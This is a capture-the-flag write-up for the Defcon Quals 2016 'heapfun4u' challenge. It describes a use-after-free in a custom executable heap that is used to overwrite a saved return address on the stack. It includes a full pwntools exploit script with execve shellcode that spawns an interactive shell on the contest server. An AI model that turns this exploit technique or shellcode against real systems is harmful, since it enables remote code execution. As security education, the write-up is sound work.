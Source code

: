 ```yaml
---
title:      Defcon Quals 2016 - Heapfun4u 
author:     giosch + frydrichas + marcof
date:       2016-05-31 12:00:00
summary:    custom heap, use-after-free, return-to-shellcode 
categories: DefconQuals2016
tags:
 - Defcon Quals
 - Exploitable
 - heap
 - shellcode
 - use-after-free
 - 2016
---
```


This challenge is a memory manager that implements a custom "heap", allocated using mmap, with the permissions bitmap set to `rwx`.




We have a main menu in which we can perform the following operations:

* `[A]llocate Buffer`: "malloc" of an arbitrary size.
* `[F]ree Buffer`: "free" the chunk we select. Also list all the chunks and the respective addresses.
* `[W]rite Buffer`: let us write in the data part of the specified chunk.
* `[N]ice guy`:  print an address of a variable of the stack.
* `[E]xit`: quit the program.

All chunks' pointers are saved in a global array (so there is a limit to their number, but the check on that is well made), but when you free a chunk, the pointer is not deleted from the array, so we can still write on it.

Inspecting the memory with qira, we saw that when we free a chunk with another allocate chunk after that, a pointer is saved at the end of the freed area. That address point to what we think is the "top chunk size", so where the next "malloc" will allocate the next chunk.

We tried to edit it writing on a freed chunk, and we managed to change the allocation point of the next chunk inside another chunk previously declared (inside that chunk data we put a "valid" top chunk size).

So we have something like an arbitrary write, an executable "heap" and a stack address (and no canary to worry about). Out first thought is to overwrite the saved return address of the main on the stack, forcing the program to jump on a shellcode on the executable heap.

At first we tried just writing stuff on the stack, but it didn't work. Then marcof noticed that maybe not only the top chunk size pointer that we can overwrite need to point to a valid top chunk size, but after the malloc, the nex top chunk size should maybe be on a previous memory area with all zeroes.
With qira we found the addresses on the stack of a valid top chunk size and a length for the malloc that allowed us to make the chunk stop on an area with zeroes.That suddenly worked, so we proceded to write the exploit in python using the pwntools.




{% highlight Python%} 
#!/usr/bin/python

from pwn import *

r = remote("heapfun4u_873c6d81dd688c9057d5b229cf80579e.quals.shallweplayaga.me",3957)

#r  = remote("localhost",4000)

def allocate(size):
    r.sendline("A")
    r.recvuntil("Size: ")
    r.sendline(str(size))
    r.recvuntil("| ")



def free(index):
    r.sendline("F")
    r.recvuntil("Index: ")
    r.sendline(str(index))
    r.recvuntil("| ")

def write(index, what):
    r.sendline("W")
    r.recvuntil("Write where: ")
    r.sendline(str(index))
    r.recvuntil("Write what: ")
    r.sendline(what)
    r.recvuntil("| ")

def nice():
    r.sendline("N")
    r.recvuntil("Here you go: ")
    leak = r.recvuntil("[A]")
    leak = leak[:-4]
    r.recvuntil("| ")
    return int(leak,16)

def esci():
        r.sendline("E")

def setAddress(addr):
    write(1,p64(addr))

def allocate_(size,payload):
    r.sendline("A"+payload)
    r.recvuntil("Size: ")
    r.sendline(str(size))
    r.recvuntil("| ")

   

allocate(16)
allocate(100)
allocate(100)
free(1)
stack = nice()
print "Stack leak -> " + hex(nice())
payload = p64(nice())+"\x00"*7
write(1,payload)
shellcode = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
write(3,shellcode)

context.log_level = 'DEBUG'
setAddress(nice()+28)
allocate_(384,"A"*7+p64(0x190)) #sarebbe 180 ma abbondo

r.sendline("W")
r.recvuntil("3) ");
heap_addr = r.recvuntil("4) ");
heap_addr = heap_addr[:-11];
print heap_addr
r.recvuntil("Write where: ")
r.sendline("4")
r.recvuntil("Write what: ")
r.sendline("A"*280+p64(int(heap_addr,16))+"C"*95)
r.recvuntil("| ")
esci()
r.interactive()

{% endhighlight %}

~ giosch
